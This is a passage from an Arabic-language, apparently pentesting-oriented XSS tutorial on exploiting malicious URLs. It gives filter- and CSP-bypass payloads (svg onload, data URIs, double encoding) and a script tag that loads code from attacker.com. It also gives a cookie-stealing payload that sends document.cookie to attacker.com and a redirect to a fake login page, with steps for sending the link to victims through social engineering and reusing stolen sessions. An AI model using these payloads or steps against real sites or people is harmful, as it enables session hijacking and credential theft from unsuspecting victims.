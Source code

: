 2. **حد طول الـ URL**:
   - استخدم Payloads قصيرة:
     ```html
     <svg/onload=alert(1)>
     ```
   - أو ارفع السكربت على سيرفرك واستخدم:
     ```html
     <script src="attacker.com/x.js"></script>
     ```

3. **Content Security Policy (CSP)**:
   - لو الموقع بيستخدم CSP، حاول تبعت الكود في سياقات مش ممنوعة، زي JSONP أو Data URLs.
   - مثال:
     ```html
     <img src="data:image/svg+xml,<svg onload=alert('XSS')>">
     ```

4. **URL Encoding أو Double Encoding**:
   - لو الموقع بيفحص الكود، استخدم Encoding:
     - `<` → `%3C`
     - `>` → `%3E`
   - أو Double Encoding لو الفلتر ضعيف:
     - `<` → `%253C`

---

**خلاصة بالعامية:**
الموقع زي واحد حاطط قفل على الباب، بس القفل ضعيف. لو منع `<script>`، جرب حاجات تانية زي `<img>` أو `<svg>`. لو الرابط طويل، استخدم كود صغير أو سكربت من برا. لازم تكون ذكي وتخدّع الحماية.

---

### **3. السيناريوهات الممكنة لاستغلال Malicious URLs**
كـ **Pentester**، لازم تعرف كل الطرق اللي ممكن تستغل بيها الـ Malicious URLs. هنا السيناريوهات:

1. **سرقة الكوكيز (Session Hijacking):**
   - **الوصف**: تبعت رابط يسرق الكوكيز بتاعة الضحية وتستخدمها عشان تدخل على حسابها.
   - **Payload**:
     ```html
     <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **الخطوات**:
     1. ابعت الرابط للضحية (إيميل، رسالة، Social Engineering).
     2. لما الضحية تفتح الرابط، الكوكيز هتبعت لسيرفرك.
     3. استخدم الكوكيز في Burp Suite عشان تعمل Session Hijacking.

2. **Phishing (تزييف صفحات تسجيل الدخول):**
   - **الوصف**: تعمل Redirect لصفحة تسجيل دخول مزيفة عشان تسرق بيانات الضحية.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/fake-login';</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>window.location='attacker.com/fake-login';</script>
     ```
   - **الخطوات**:
     1. صمم صفحة تسجيل دخول شبه الموقع الأصلي.
     2. لما الضحية تفتح الرابط، هتروح للصفحة المزيفة.
     3. سجّل اليوزر والباسورد اللي بتدخلهم.
